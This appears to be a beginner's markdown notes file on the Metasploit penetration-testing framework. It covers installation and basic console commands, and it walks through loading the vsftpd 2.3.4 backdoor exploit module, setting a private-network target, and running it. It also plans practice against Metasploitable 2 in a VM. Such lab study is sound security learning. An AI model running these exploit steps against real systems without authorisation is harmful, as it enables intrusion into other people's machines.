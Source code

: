 # Metasploit Notes

## What is Metasploit?
Metasploit is a powerful open-source penetration testing framework. It is used for developing, testing, and executing exploits against target systems.

## Installation
- On Kali Linux: Pre-installed
- On Ubuntu: `sudo apt install metasploit-framework`
- On other systems: See https://docs.metasploit.com/docs/using-metasploit/getting-started.html

## Basic Usage
- Start Metasploit console:
  ```
  msfconsole
  ```
- Search for an exploit:
  ```
  search vsftpd
  ```
- Use an exploit module:
  ```
  use exploit/unix/ftp/vsftpd_234_backdoor
  ```
- Set options:
  ```
  set RHOSTS 192.168.1.100
  set RPORT 21
  ```
- Run the exploit:
  ```
  run
  ```

## Useful Commands
- List all exploits:
  ```
  show exploits
  ```
- List all payloads:
  ```
  show payloads
  ```
- Get help:
  ```
  help
  ```

## Notes / Experiments
- [ ] Try exploiting Metasploitable 2 in a VM
- [ ] Document your process and results 